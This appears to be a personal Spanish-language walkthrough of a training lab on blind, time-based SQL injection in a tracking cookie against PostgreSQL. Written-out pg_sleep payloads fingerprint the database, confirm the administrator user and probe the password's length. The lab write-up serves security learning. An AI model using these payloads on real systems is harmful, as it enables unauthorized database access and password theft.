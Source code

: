 ## Lab: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

it is possible to trigger conditional time delays to infer information.

users , user administrator y password

Damos por hecho que los datos están bien, no vamos a volver a probarlo, lo que si vamos a ver que tipo de base de datos es.

Comprobamos el tipo de base de datos

'+||+pg_sleep(10)--; --> postgree


Sabemos que es esta en postgree

' || SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--

No funciona, vamos a ponerle ()
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--

![](assets/2022-07-08-19-29-36.png)

### Comprobamos si existe administrator en users

' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users)--

Si existe 10 segundos de espera

## Ver el tamaño de la contraseña


' || (SELECT CASE WHEN (username='administrator') and (LENGTH(password)=1)THEN pg_sleep(10) ELSE pg_sleep(-1) END from users)--

Con esta opción va a ir todas las opciones rápido menos cuando funcione. Lo que hay que tener claro es que esta opción es buena para el intruder pero no para comprobar que en repeater si se cuple la condición, a no ser que sepas el tamaño de la cadena.
